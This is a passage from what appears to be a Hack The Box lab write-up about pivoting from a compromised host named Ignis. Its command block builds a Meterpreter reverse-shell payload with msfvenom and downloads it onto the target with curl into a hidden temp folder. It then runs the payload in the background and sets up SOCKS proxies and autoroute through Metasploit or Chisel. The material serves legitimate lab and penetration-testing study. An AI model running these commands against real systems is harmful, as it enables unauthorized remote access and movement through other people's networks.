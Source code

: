 [![ingis-mongodb-change-pass.png](/assets/images/htb/endgames/rpg/ingis-mongodb-change-pass.png)](/assets/images/htb/endgames/rpg/ingis-mongodb-change-pass.png)
{:.center-image}

Now I can setup socks proxy with MSF or Chisel (faster) and CME the network:

```
root@kali:$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.14.14.37 LPORT=9001 -f elf --platform linux -a x64 > ingis.elf
root@kali:$ msfdb run
msf5 > handler -H tun0 -P 9001 -p linux/x64/meterpreter/reverse_tcp
msf5 > use auxiliary/server/socks5
msf5 auxiliary(server/socks5) > run
beta_user@Ignis:~$ mkdir /tmp/.1
beta_user@Ignis:~$ cd /tmp/.1
beta_user@Ignis:/tmp/.1$ curl http://10.14.14.37/ingis.elf > ingis.elf
beta_user@Ignis:/tmp/.1$ nohup ./ingis.elf &
meterpreter > run autoroute -s 192.168.125.0/24
Or
root@kali:$ ./chisel server -p 8000 --reverse --socks5
```